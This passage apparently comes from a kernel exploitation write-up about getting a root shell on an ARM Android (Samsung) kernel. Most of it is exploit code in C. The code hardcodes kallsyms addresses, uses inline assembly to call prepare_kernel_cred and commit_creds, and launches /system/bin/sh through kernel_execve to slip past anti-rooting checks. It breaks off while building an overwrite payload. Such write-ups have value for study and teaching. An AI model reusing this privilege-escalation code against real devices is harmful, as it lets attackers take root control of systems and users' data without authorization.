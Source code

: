 ### Popping a shell without using `sys_execve`
Now another interesting way, which was what I initially ended up doing, was using the kernels own execve. This is slightly more complicated, but only slightly. We need to use the `getname()` functionality in the kernel to get the string `/system/bin/sh` into the kernel, and then execute that shell using our kernels own execve. Now we're done, we're root, and we won!

# Exploits
### Exploit 1 (No `sys_execve`)
```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/syscall.h>
#include <stdlib.h>
#include <linux/kernel.h>

#define int32_t int
#define int64_t long
#define uint32_t unsigned int
#define uint64_t unsigned long

// global file descriptor
int fd;

// environment variable
extern char** environ;

typedef void (*PRINTK)(char*, ...);
PRINTK printk = (PRINTK)0xc065b688; // printk kallsyms
                                    
typedef char* (*GETNAME)(char*);
GETNAME getname = (GETNAME)0xc010dc30; // getname kallsyms
                                
typedef int (*KERNEL_EXECVE)(const char*, ...);
KERNEL_EXECVE kernel_execve = (KERNEL_EXECVE)0xc0011540; // kernel_execve kallsyms

void get_root() {
    asm volatile (
        "ldr     R3, =0xc00795b8\n\t" // move prepare_kernel_cred address into r3
        "mov     R0, #0\n\t"          // argument for prepare_kernel_cred
        "blx     R3\n\t"              // call prepare_kernel_cred
                                      // result saved in r0
                                      
        "ldr     R3, =0xc00790dc\n\t" // move commit_kernel_cred address into r3
        "blx     R3\n\t"              // call commit_kernel_cred
                                      // should be root
    );       

    // we will call kernel_execve because of anti-rooting on samsung
    static const char *argv_new_proc[] = { "sh", NULL };
    char *filename = getname("/system/bin/sh");
    int err = kernel_execve(filename, argv_new_proc, environ); 
}

void payload() {
    uint32_t payload[164] = {0};
    int offset = 161;
  
    payload[offset++] = (uint32_t)get_root;

```